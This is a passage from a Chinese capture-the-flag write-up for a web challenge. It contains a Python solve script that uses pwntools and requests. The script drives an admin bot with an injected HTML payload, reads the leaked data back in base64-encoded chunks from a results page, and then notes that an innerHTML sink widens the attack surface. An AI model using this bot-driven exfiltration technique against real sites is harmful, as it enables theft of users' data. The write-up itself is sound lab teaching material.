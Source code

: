 ```python

post_payload()

def bot(start, end):
    r = remote(hostname, 10053)
    r.recvuntil(b"token:")
    r.sendline(token)
    r.recvuntil("服务器提供这个文件。\n".encode())
    r.send(html.replace("%start%", str(start)).replace("%end%", str(end)).encode())
    r.sendline()

    # r.interactive()
    r.recvuntil("bye!\n")

bot(0, 18)


res = ""
# receive our data
def read_contents():
    r = s.get(f"http://{hostname}:10051/result")
    for i in r.text.split("\n"):
        if "你留下的评论" in i:
            text = i.split("：")[1].replace('");', "")
            print(text)
            x = base64.b64decode(text).decode()
            return x
res += read_contents()
post_payload()
bot(18, 36)
res += read_contents()
post_payload()
bot(36, 53)
res += read_contents()
post_payload()
bot(53, 71)
res += read_contents()
print(res)
print(unquote_plus(res))
```

（所以这是一道同时要用到 pwntools 和 requests 的 web 题）。

## 更短的解答

以下采用了 @xmcp 的解，在此表示感谢。

这道题的攻击面事实上比上面所描述的更大。因为 `updateElement()` 的实现是这样的：

```javascript
function updateElement(selector, html) {
    document.querySelector(selector).innerHTML = html;
}
```
